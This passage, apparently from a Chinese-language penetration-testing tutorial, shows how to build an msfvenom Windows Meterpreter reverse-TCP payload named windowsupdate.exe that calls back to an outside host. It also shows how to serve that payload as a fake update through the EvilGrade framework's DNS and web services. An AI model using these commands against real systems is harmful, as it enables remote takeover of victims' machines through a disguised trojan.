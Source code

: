 ```
msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=172.16.42.139 LPORT=445 -f exe -o /tmp/windowsupdate.exe 
```

![](img/35cce0f2-19da-4421-bb4f-8010723ab26b.png)

我们已将有效载荷保存到`/tmp/windowsupdate.exe`，因此我们需要将代理设置为此路径。

在运行的 EvilGrade 框架窗口中，输入以下内容将有效载荷设置为我们的自定义有效载荷：

```
set agent /tmp/windowsupdate.exe # This sets the agent to the custom agent.
show options # This will show the module's options to check the settings.
start # This will start both the DNS and Web service for the attack.  
```

![](img/3f277827-fadf-48a1-a3ac-cf3f39bbcc19.png)
